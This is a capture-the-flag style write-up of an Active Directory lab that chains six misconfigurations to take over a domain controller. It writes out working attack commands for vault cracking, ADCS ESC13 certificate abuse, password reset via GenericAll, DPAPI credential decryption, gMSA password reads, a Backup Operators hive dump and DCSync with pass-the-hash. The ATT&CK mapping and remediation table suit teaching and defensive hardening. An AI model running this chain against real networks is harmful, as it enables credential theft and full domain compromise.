




A single Domain Controller compromised through six identity hops. None of the misconfigurations is critical alone, but each one hands over the next account.
Written with the help of AI from my own engagement notes. Read the raw, unedited notes → · Read the story on Medium ↗
| # | From → To | Technique | Misconfiguration |
|---|---|---|---|
| 1 | anonymous → ranch | Guest SMB, crack Password Safe vault | Guest enabled; vault on a readable share; weak master password |
| 2 | ranch → HelpDesk | ADCS ESC13 | Domain Users can enroll in a template whose issuance policy is linked to a group |
| 3 | HelpDesk → schlop | GenericAll → password reset | HelpDesk holds GenericAll over a user object |
| 4 | schlop → pebble | DPAPI PSCredential decryption | Saved credential file in a user profile |
| 5 | pebble → svc_gmsa$ | gMSA password read over LDAP | IT group can read a privileged gMSA's password |
| 6 | svc_gmsa$ → Administrator | Backup Operators → hive dump → DCSync | Service account in Backup Operators on a DC |
Each phase follows the same loop: what I knew → what I hypothesised → what I ran → what it told me. Dead ends stay in, because ruling things out is part of the method.
rustscan reported the host down (ICMP filtered over the VPN), so I re-ran with host discovery disabled.nmap -sC -sV -Pn <target>kerbrute userenum → only administrator. guest returned KDC_ERR_ETYPE_NOSUPP, an etype mismatch, not proof the account is dead.administrator → pre-auth required.nxc smb -u guest -p '' → works. READ on the non-default Files share.Files contained logins.psafe3, a Password Safe v3 vault.hashcat -m 5200 logins.psafe3 rockyou.txt # master password recovered from rockyouThree entries: admin, ranch, root. Validated against the DC, admin and root logged on as (Guest), meaning the domain doesn't know them. Only ranch was real.
[+] even for guest-mapped logons. Reading the (Guest) suffix saved chasing two decoy credentials.BloodHound collection took three attempts: nxc --bloodhound hit a TLS timeout, rusthound-ce over 389 was refused (signing enforced), and rusthound-ce --ldaps worked: 10 users, 65 groups, 34 certificate templates.

With a certificate authority (kitsune-DC01-CA) and 34 templates in the data, ADCS was next:
| Template | Client auth | Enroll | Min key | Issuance policy linked to |
|---|---|---|---|---|
Kitsune-User | Yes | Domain Users, Domain Admins | 4096 | CN=HelpDesk,CN=Users,… |
ESC13: anyone who authenticates with this certificate gets HelpDesk in their Kerberos ticket. It grants a group, not admin, so what it's worth depends on what HelpDesk can do.
The first request failed with CERTSRV_E_KEY_LENGTH (the template enforces 4096-bit keys), fixed with -key-size 4096. After that, every request hung after opening \pipe\cert while SMB, LDAP and Kerberos all worked normally. I worked through hypotheses in order:
| Hypothesis | Test | Outcome |
|---|---|---|
| Lab instance fault | Full reset, new IP | No change |
| PMTU black hole | DF pings: 1400 B dropped, 1300 B OK → tunnel MTU 1000 / 800 | No change |
| UDP transport | OpenVPN over TCP | No change |
| PMTUD failure | MSS clamp 1200, tcp_mtu_probing=2 | No change |
| Tooling bug | Raw impacket in place of certipy | No change |
| Alternate path avoiding RPC | BloodHound: Shadow Credentials or any ACL edge from ranch | Zero outbound edges |
| Local enrollment | WinRM / RDP as ranch | No access |
| Local network | Switched to a different network | ✓ Worked first try |
One clue pointed away from MTU early: the failure alternated between the CSR write and the response read, which a fixed-size black hole wouldn't do. Platform support confirmed their side was healthy, and it was. The problem was my local network.
certipy req -u ranch -p '<pw>' -dc-ip <dc> -ca kitsune-DC01-CA -template Kitsune-User -key-size 4096
certipy auth -pfx ranch.pfx -dc-ip <dc> # PKINIT → TGT carrying HelpDesk--ntds, psexec, wmiexec, smbexec: all denied. HelpDesk isn't an admin group. A better question was what can HelpDesk write to?bloodyad -d kitsune.local -u ranch --host DC01.kitsune.local -k get writable --right ALL --detailschlop, including unicodePwd, msDS-KeyCredentialLink and servicePrincipalName. The BloodHound data shows why: HelpDesk (which has no members, so ESC13 is the only way in) holds GenericAll on schlop. Password reset with bloodyAD → evil-winrm (schlop is in Remote Management Users). User flag.
networkAuth.cred is an Export-Clixml PSCredential, encrypted with schlop's DPAPI key. You can't decrypt it offline without the master key, but inside schlop's own session Windows decrypts it automatically:
(Import-Clixml .\networkAuth.cred).GetNetworkCredential().Password # → pebbleWinRMAuthorizationError. Valid creds, no shell.nxc ldap <dc> -u pebble -p '<pw>' --gmsa
# svc_gmsa$ NTLM: <hash> PrincipalsAllowedToReadPassword: ITIT, so the read is allowed.
nxc smb <dc> -u 'svc_gmsa$' -H '<hash>' -M backup_operatorBackup privilege → SAM + SECURITY hives (boot key read live) → DC01$ machine hash → DRSUAPI replication → Administrator NT hash → evil-winrm -H.

| Technique | ID | Where |
|---|---|---|
| Network Service Discovery | T1046 | nmap |
| Domain Account Discovery | T1087.002 | kerbrute, rusthound-ce |
| Valid Accounts: Default Accounts | T1078.001 | Guest over SMB |
| Data from Network Shared Drive | T1039 | logins.psafe3 |
| Credentials from Password Managers | T1555.005 | Vault crack |
| Steal or Forge Authentication Certificates | T1649 | ESC13 |
| Account Manipulation | T1098 | schlop password reset |
| Remote Services: WinRM | T1021.006 | evil-winrm |
| Credentials from Password Stores | T1555 | DPAPI PSCredential |
| OS Credential Dumping: SAM / LSA Secrets | T1003.002 / .004 | backup_operator hive dump |
| OS Credential Dumping: DCSync | T1003.006 | DRSUAPI via DC01$ |
| Use Alternate Auth Material: Pass the Hash | T1550.002 | Administrator logon |
| Finding | Risk | Remediation |
|---|---|---|
| Guest / anonymous SMB enabled | Unauthenticated file access | Disable Guest; restrict null sessions |
| Password vault on a world-readable share | Credential exposure | Move to a managed secrets platform; enforce a strong master password |
ESC13 on Kitsune-User | Any user gains HelpDesk | Remove the OID-to-group link or restrict enrollment |
| HelpDesk GenericAll on a user | Arbitrary account takeover | Delegate reset-password only, scoped to an OU; audit ACLs |
PSCredential file in a profile | Credential reuse | Use gMSA or a vault for automation, not Export-Clixml |
IT can read a privileged gMSA | Service account takeover | Limit PrincipalsAllowedToReadPassword to the hosts that run the service |
| Service account in Backup Operators | Tier-0 equivalent on a DC | Remove it; treat Backup Operators as tier-0 and alert on membership changes |
(Guest) after a green [+] means the login didn't really work.